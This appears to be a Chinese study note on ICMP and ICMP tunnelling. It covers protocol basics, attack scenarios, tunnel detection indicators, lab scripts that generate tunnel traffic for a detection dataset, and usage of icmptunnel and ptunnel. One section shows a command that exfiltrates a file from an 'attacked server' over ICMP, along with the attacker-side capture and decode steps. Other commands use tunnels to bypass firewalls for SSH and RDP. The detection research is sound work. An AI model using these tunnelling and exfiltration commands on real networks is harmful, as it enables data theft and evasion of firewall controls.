







# ICMP

## ICMP概念

ICMP协议即网际控制报文协议（Internet Control Message Protocol，ICMP），运行于IP协议之上，但通常被认为是IP协议的一部分。
其中文实际含义是是“差错与控制协议”。ICMP协议的主要功能是： 
1. 传输差错信息
2. 传输控制信息 

ICMP报文也是封装在IP数据报的数据部分中进行传输的，ICMP软件只是作为IP软件的一个模块而存在。

### ICMP作为单独的一层吗？

虽然ICMP报文由IP数据报传输，但我们并不把ICMP看作比IP更高层的协议。事实上，ICMP报文的信宿总是信宿机上的IP软件，。IP软件一旦接收到差错或控制报文，立即交给ICMP模块进行处理。在这种意义上，我们也可以把ICMP看作不同机器的IP软件间相互通信的机制。 
在协议层次结构中，ICMP的差错和控制信息传输在概念上并不构成一个独立的层次，它不是一种具有普遍意义的传输机制，不是上层协议赖以存在的基础，而只解决了Internet中的一类特殊问题，所以不能独立出来。 





代码（Code）字段，长度是1字节，表示发送这个特定报文类型的原因。 
校验和（Checksum）字段，长度是2字节，用于数据报传输过程中的差错控制。ICMP地校验和计算与IP报头的校验和类似，都是采用反码算术运算。

## 攻击场景


- ICMP隧道
    - HTTP访问
    - SSH连接
    - RDP连接
- 文件传输
- SMURF攻击(DOS攻击)
- 洪水攻击(Fraggle Attack)
- 信息收集(Information Gathering)
- 路由跟踪(Trace Route)
- 端口扫描
- 系统指纹(OS fingerprinting)


## ICMP隧道

### 原理

通过ICMP echo（ping request）和reply（ping reply）实现隧道。

请求端的 Ping 工具通常会在 ICMP 数据包后面附加上一段随机的数据作为 Payload，而响应端则会拷贝这段 Payload 到 ICMP 响应数据包中返还给请求端，用于识别和匹配 Ping 请求。Windows 和 Linux 系统下的 Ping 工具默认的 Payload 长度为 64 比特，但实际上协议允许附加最大 64K 大小的 Payload。这里的payload便可用来进行数据传输。

### 场景

适用于防火墙只允许ping出站流量的环境：

`Client - [FireWall] - Proxy Server - Internet`




### 检测隧道

下面是一些检测恶意 ICMP 流量的方法：

- 检测同一来源 ICMP 数据包的数量。一个正常的 ping 每秒最多只会发送两个数据包。而使用 ICMP 隧道的浏览器在同一时间会产生上千个 ICMP 数据包。
- 注意那些 ICMP 数据包中 payload 大于 64 比特的数据包。当然 icmptunnel 可以配置限制所有数据包的 payload 为 64 比特，这样会使得更难以被检测到。
- 寻找那些响应数据包中 payload 跟请求数据包不一致的 ICMP 数据包。
- 检查 ICMP 数据包的协议标签。例如，icmptunnel 会在所有的 ICMP payload 前面增加 'TUNL' 标记以用于识别隧道，这就是特征。(0x450000)

#### 可用信标

- 单位时间内的ICMP请求数量、响应数量
- 单位时间内的ICMP消息平均长度
- 响应数据包中 payload 跟请求数据包不一致的 ICMP 数据包数量

#### 测试过程

取单位时间，**10s**

执行命令如下：

```
tcpdump -i ens33 -t -s 0 -w ./target.cap & curl www.baidu.com & curl www.acfun.cn & curl www.bilibili.com & curl www.taobao.com &
sleep 10
kill `ps aux | grep tcpdump | grep -v grep | awk '{print $2}'`
```


- 单位时间内，所有请求消息的消息数量**（$\_###\_req\_msg\_num）**，以及所有响应消息的消息平均数量**（$\_###\_resp\_msg\_num）**
- 单位时间内，所有请求消息的Data平均长度**（$\_###\_req\_msg\_length）**，以及所有响应消息的Data平均长度**（$\_###\_resp\_msg\_length）**
- 单位时间内，响应数据包中 payload 跟请求数据包不一致的 ICMP 数据包数量**（$\_###\_diff\_msg\_num）**。
-   ICMP 数据包的协议标签 **（$\_###\_msg\_tag）**


### DNS正常与异常数据流量自动化生成与捕获

#### 场景一 web访问

1、icmp隧道异常流量生成

1)爬取 http://top.chinaz.com/all/index.html 中的网站，用来作为网站访问产生icmp请求流量，得到URL列表urllist.txt

```python
# encoding: UTF-8
# top.chinaz.com.py
import requests
import sys
import re
url =  "http://top.chinaz.com/all/index.html"
try:
    r=requests.get(url)
    pattern = re.compile(r'<span class="col-gray">([a-z.0-9]*?)</span>')
    match = pattern.findall(r.text)
    if match:
        print "crawl success."
    with open("urllist.txt", 'w') as f:
        for value in match:
            f.write(value+"\n")
 
except Exception as e:
    print "web request failed."
    print e
```
2)使用icmptunnel开启隧道.

3)使用./curl_batch.sh 产生web访问流量及pcap包。

```bash
#!/bin/bash
# curl_batch.sh
cat urls.txt | while read myline
do
    echo "[*] processing: ${myline}"
    tcpdump -i ens33 -w $myline.pcap &
    curl $myline &
    sleep 1s
    ps aux | grep tcpdump | grep -v grep | awk '{print $2}' | sudo xargs kill
done
```


4)导出结果
```bash
for i in $(find ../ -name "*.pcap")
do
    echo "[*] processing: ${i##*/}"
    bro -C -r ../${i##*/} ~/bro-scripts/entrypoint.bro
    i=${i##*/}
    mv tophant.icmp.log ${i%%.pcap}.icmp.json
done
```


```json
{"ts":1517311625.345711,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.116","resp_h":"192.168.1.118","itype":8,"icode":0,"len":59,"hlim":255,"v6":false,"id":26891,"seq":46182,"payload":"E\u0000\u0000;\u00d1Y@\u0000@\u0011\u0002V\u000a\u0000\u0001\u0002\u000a\u0000R\u0001\u009a\u00dd\u00005\u0000\u0027N\u00e0\u00f2\u00a9\u0001\u0000\u0000\u0001\u0000\u0000\u0000\u0000\u0000\u0000\u0003www\u0005baidu\u0003com\u0000\u0000\u0001\u0000\u0001"}
{"ts":1517311625.345785,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.116","resp_h":"192.168.1.118","itype":8,"icode":0,"len":59,"hlim":255,"v6":false,"id":65405,"seq":15102,"payload":"E\u0000\u0000;\u00d1Z@\u0000@\u0011\u0002U\u000a\u0000\u0001\u0002\u000a\u0000R\u0001\u009a\u00dd\u00005\u0000\u0027\u0089\u0019\u009dp\u0001\u0000\u0000\u0001\u0000\u0000\u0000\u0000\u0000\u0000\u0003www\u0005baidu\u0003com\u0000\u0000\u001c\u0000\u0001"}
{"ts":1517311625.420802,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.116","resp_h":"192.168.1.118","itype":0,"icode":0,"len":59,"hlim":255,"v6":false,"id":52623,"seq":55597,"payload":"E\u0000\u0000[R\u001f\u0000\u0000}\u0011\u0084p\u000a\u0000R\u0001\u000a\u0000\u0001\u0002\u00005\u009a\u00dd\u0000G\u00ad\u000e\u00f2\u00a9\u0081\u0080\u0000\u0001\u0000\u0002\u0000\u0000\u0000\u0000\u0003www\u0005baidu\u0003com\u0000\u0000\u0001\u0000\u0001\u00c0\u000c\u0000\u0001\u0000\u0001\u0000\u0000\u0000\u00c8\u0000\u0004s\u00ef\u00d3p\u00c0\u000c\u0000\u0001\u0000\u0001\u0000\u0000\u0000\u00c8\u0000\u0004s\u00ef\u00d2\u001b"}
{"ts":1517311625.424624,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.116","resp_h":"192.168.1.118","itype":0,"icode":0,"len":59,"hlim":255,"v6":false,"id":37281,"seq":41821,"payload":"E\u0000\u0000\u008fR \u0000\u0000}\u0011\u0084;\u000a\u0000R\u0001\u000a\u0000\u0001\u0002\u00005\u009a\u00dd\u0000{\u00e5Z\u009dp\u0081\u0080\u0000\u0001\u0000\u0001\u0000\u0001\u0000\u0000\u0003www\u0005baidu\u0003com\u0000\u0000\u001c\u0000\u0001\u00c0\u000c\u0000\u0005\u0000\u0001\u0000\u0000\u0001,\u0000\u000f\u0003www\u0001a\u0006shifen\u00c0\u0016\u00c0/\u0000\u0006\u0000\u0001\u0000\u0000\u00027\u0000-\u0003ns1\u00c0/\u0010baidu_dns_master\u00c0\u0010k]\u00a84\u0000\u0000\u0000\u0005\u0000\u0000\u0000\u0005\u0000\u0001Q\u0080\u0000\u0000\u000e\u0010"}
{"ts":1517311625.477648,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.116","resp_h":"192.168.1.118","itype":8,"icode":0,"len":59,"hlim":255,"v6":false,"id":5691,"seq":9991,"payload":"E\u0000\u0000<u]@\u0000@\u0006r\u00fd\u000a\u0000\u0001\u0002s\u00ef\u00d3p\u0084$\u0000P\u00ed\u00a6\u0009{\u0000\u0000\u0000\u0000\u00a0\u0002o\u00e0\u008d\u00a5\u0000\u0000\u0002\u0004\u0005\u0098\u0004\u0002\u0008\u000a\u0000y|\u0026\u0000\u0000\u0000\u0000\u0001\u0003\u0003\u0006"}
```

2、正常流量
urllist.txt同上

不开启icmp隧道情况下，执行./curl_batch.sh 即产生正常流量及pcap包。

#### 场景二 文件传输

1、异常流量生成

1）生成被传输文件：

执行python create.py icmp

```python
#log文件生成
#create_log.py
import random
import string
import sys

prefix = sys.argv[-1] if len(sys.argv) == 2 else "test"
  
for i in range(30):
    name = ''.join(random.sample(string.ascii_lowercase, 5))
    f = open("{}.{}.log".format(name, prefix), 'a')
    f.write("".join(random.sample(string.ascii_letters+string.digits, 62)))
    f.close()
```

2）准备icmp_transmitter.py文件（其中main处做了修改，以适合linux环境）

3）传输文件、打包Pcap

执行./icmp_trans.sh

```bash
#!/bin/bash
# icmp_trans.sh
for i in $(find -name "*.log")
do
    echo "[*] processing: ${i##*/}"
    while true
    do
        echo ${i##*/}
        tcpdump -i ens33 icmp -w $i.pcap &
        python icmp_transmitter.py ${i##*/} 192.168.1.108
        if [ $? -eq 0 ]; then
             sleep 1s
             ps aux | grep tcpdump | grep -v grep | awk '{print $2}' | sudo xargs kill
             break
        fi
    done
done
```
4)导出结果
```bash
for i in $(find ../ -name "*.pcap")
do
    echo "[*] processing: ${i##*/}"
    bro -C -r ../${i##*/} ~/bro-scripts/entrypoint.bro
    i=${i##*/}
    mv tophant.icmp.log ${i%%.pcap}.icmp.json
done
```

```json
{"ts":1519301490.563351,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":26341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.565022,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":26341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.566186,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.566439,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.56692,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":8227,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
{"ts":1519301490.56922,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":8227,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
{"ts":1519301490.569721,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
{"ts":1519301490.570071,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
```


2、正常流量

无

#### 场景三 文件传输


1、异常流量生成

1)生成传输文件

执行python create.py icmp

2)ssh认证

scp传输前需要先做好ssh认证，不然要一直输入密码

客户端先生成密钥：`ssh-keygen -t rsa`

然后`/root/.ssh/id_rsa.pub`内容添加到服务端的`/root/.ssh/authorized_keys`中就行了

或者拷贝文件过去

`scp ~/.ssh/id_rsa.pub 192.168.100.4:/root/.ssh/authorized_keys`

3)开启icmp隧道

4)传输文件、打包Pcap

```bash
#!/bin/bash
# icmp_trans.sh
for i in $(find -name "*.log")
do
    echo "[*] processing: ${i##*/}"
    while true
    do
        echo ${i##*/}
        tcpdump -i ens33 icmp -w $i.pcap &
        scp -C $i root@192.168.1.118:/root/pcap/icmp/
        if [ $? -eq 0 ]; then
             sleep 1s
             ps aux | grep tcpdump | grep -v grep | awk '{print $2}' | sudo xargs kill
             break
        fi
    done
done
```


## 工具

### icmptunnel

Transparently tunnel your IP traffic through ICMP echo and reply packets.

官网：https://dhavalkapil.com/icmptunnel/

#### 结构

整体结构：

```
+--------------+                         +------------+
|              |       ICMP traffic      |            |       IP traffic
|    Client    |  ------------------->   |   Proxy    |   ------------------>
|              |  <-------------------   |   Server   |   <------------------
|              |    through restricted   |            |     proper internet
+--------------+         internet        +------------+
```

客户端结构：

```
+--------------+                                    +------------+
|              |  IP traffic  +------+  IP traffic  |            |   ICMP traffic
|     User     |  --------->  | tun0 |  --------->  | icmptunnel | --------------->
| Applications |  <---------  +------+  <---------  |  program   | <---------------
|              |        (Virtual Interface)         |            |    restricted 
+--------------+                                    +------------+     internet
```

代理端结构：

```
                 +------------+
  ICMP traffic   |            |  IP traffic     +------+       NAT/Masquerading
---------------> | icmptunnel | ------------>   | tun0 |    ---------------------> 
<--------------- |  program   | <------------   +------+    <---------------------
   restricted    |            |           (Virtual Interface)   proper internet
    internet     +------------+
```

#### 使用方法

环境：

| Side         | 系统         | IP            |
| ------------ | ---------- | ------------- |
| client       | 虚拟机，CentOS | 192.168.1.116 |
| Proxy server | 虚拟机，CentOS | 192.168.1.118 |

Proxy Server和Client都从 Github 上面 clone 下代码：

```
git clone https://github.com/DhavalKapil/icmptunnel.git
```

随后使用 `make` 命令进行编译即可。

> 注：这款工具只能在 Linux 下面使用。

Proxy Server端配置

1）启动：

```shell
[sudo] ./icmptunnel -s 10.0.1.1
```

Client端配置

1）配置`client.sh`

使用`route -n`查看本机的路由表，然后配置`client.sh`，将`route add -host <server> gw <gateway> dev <interface>`这一句，修改成本机环境的相应情况，如这里要配置\<server\>为Proxy Server的IP地址`192.168.1.118`，而\<gateway\>则为`0.0.0.0`，\<interface\>则为网卡，我的为`ens33`（一般是eth0）。



2）查看DNS解析

`vi /etc/resolv.conf`

查看Client与Proxy Server的DNS解析地址，确保两者的解析地址一样。如都为`8.8.8.8`。

3）启动：

```
[sudo] ./icmptunnel -c <server> &
```

这里的\<server\>为Proxy Server的IP地址，注意加&，放在后台运行。

然后就会看到这样的DEBUG信息，配置到此已经完成。



#### 测试抓包

开启tcpdump抓包

`tcpdump -i ens33 -t -s 0 -c 100 -w ./target.cap &`

使用curl产生流量

`curl www.baidu.com`

target.cap包如下，可以看到数据内容包含在icmp包Data中




### Data Ex-filteration over ICMP Tunnel

https://github.com/NotSoSecure/icmp_tunnel_ex_filtrate


被攻击服务器：

`icmp_transmitter.exe "input_file_to_be_sent" "IP_address_to_be_sent"`

（无python环境的Windows则可使用`ICMP_transmitter.exe`）

攻击者服务器：

先抓取流量包

```shell
sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt
```

parser.sh来解析输出文件

`./parser.sh`

base64解码

`certutil -decode "base_64_encoded_textfile" "file.extention"`


### ptunnel

官网：http://www.cs.uit.no/~daniels/PingTunnel/

下载：http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz

exe下载(只有v0.62)：http://www.neophob.com/files/ptun-rel1.zip

github:https://github.com/f1vefour/ptunnel


#### 场景与优势

适用于防火墙只允许ping出站流量的环境

支持多并发连接，性能优

充足的带宽（150kb/s 下行，50kb/s上行）

支持身份认证，阻止其它人使用此代理

使用时需要root用户，最好客户端和服务端都是root权限。

> 注意

ptunnel只支持TCP


#### 使用
```bash
Client: ./ptunnel -p <proxy address> -lp <listen port> -da <destination address>
                  -dp <dest port> [-c <network device>] [-v <verbosity>] [-u]
                  [-x password]
Proxy: ./ptunnel [-c <network device>] [-v <verbosity>] [-u] [-x password]
```
-p - proxy的地址

-lp - 本地端口

-da - 远程服务器地址（因为此处要登录proxy本身，所以地址和proxy server地址相同，否则请使用要通过proxy访问的远程服务器的地址）

-dp - 远程服务器端口


#### 利用过程
win server:
ptunnel.exe -h 查看接口
ptunnel -v 4 -c "DeviceNPF_{EED408B...}"

win client:
ssh连接：
ptunnel.exe -p 10.0.83.18 -lp 2222 -da 10.0.83.4 -dp 22 -v 4
ssh -p 2222 -l root localhost

SOCKS代理：（no done）
ptunnel.exe -p 10.0.83.18 -lp 2222 -da 10.0.83.4 -dp 22 -v 4
ssh -p 2222 -ND 8000 localhost

3389:（no done）
ptunnel.exe -p 10.0.83.18 -lp 1080 -da 10.0.83.20 -dp 3389 -v 4
mstsc 192.168.72.1:1080


### Pshell(与ptunnel类似)

https://github.com/izuolan/Pshell


### icmptunnel/jamesbarlow)

https://github.com/jamesbarlow/icmptunnel


### icmpsh

https://github.com/inquisb/icmpsh


### Hping3


#### 安装

```bash 
git clone https://github.com/antirez/hping.git

# 查看是否安装了下面两
# libpcap-1.0.0-6.20091201git117cb5.el6.x86_64
# libpcap-devel-1.0.0-6.20091201git117cb5.el6.x86_64
rpm -qa| grep libpcap

ln -sf /usr/include/pcap-bpf.h /usr/include/net/bpf.h
yum -y install tcl
yum -y install tcl-devel
make
make strip
make install
```

#### 资料

https://github.com/antirez/hping

http://man.linuxde.net/hping3

http://0daysecurity.com/articles/hping3_examples.html


### Simple ICMP Tunnel

https://sourceforge.net/projects/simpleicmptunnel/?source=directory


## SMURF攻击（ICMP反射攻击）


## 资料

RFC792

http://www.ietf.org/rfc/rfc792.txt

icmptunnel wiki

https://en.wikipedia.org/wiki/ICMP_tunnel

dns与icmp隧道

http://netsecurity.51cto.com/art/201701/528247.htm

利用 ICMP 隧道穿透防火墙

http://xiaix.me/li-yong-icmp-sui-dao-chuan-tou-fang-huo-qiang/

ICMP隧道 ptunnle

http://www.cnblogs.com/zylq-blog/p/6747217.html

The ICMP Tunnel

https://oing9179.github.io/blog/2017/06/The-ICMP-Tunnel/

ICMP Tunnels – A Case Study

https://www.notsosecure.com/icmp-tunnels-a-case-study/

通过ICMP隧道进行文件传输

http://www.mottoin.com/89600.html

利用icmp隧道 轻松穿透 tcp/udp四层 封锁

https://klionsec.github.io/2017/10/31/icmp-tunnel/

dpkt Tutorial #1: ICMP Echo

https://bbs.pediy.com/thread-213074.htm

Internet Control Message Protocol (ICMP) Parameters

https://www.iana.org/assignments/icmp-parameters/icmp-parameters.xhtml

PingTunnel for Windows (ICMP tunnel)

http://neophob.com/2007/10/pingtunnel-for-windows-icmp-tunnel/